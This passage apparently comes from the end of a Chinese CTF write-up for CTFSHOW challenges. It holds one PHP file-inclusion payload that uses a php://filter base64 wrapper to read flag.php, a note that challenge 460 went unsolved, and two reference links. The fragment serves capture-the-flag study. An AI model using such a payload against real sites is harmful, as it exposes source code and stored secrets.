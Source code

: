 ```
?u=php://filter/convert.base64-encode/resource=flag.php&p=a
```



## 460

整不出=-=





## 参考文章

[CTFSHOW-其他WP_Y4tacker的博客-CSDN博客_ctfshow 其他](https://blog.csdn.net/solitudi/article/details/113778651)

[CTFSHOW其他篇羽的博客-CSDN博客_ctfshow 其他](https://blog.csdn.net/miuzzx/article/details/112692697)

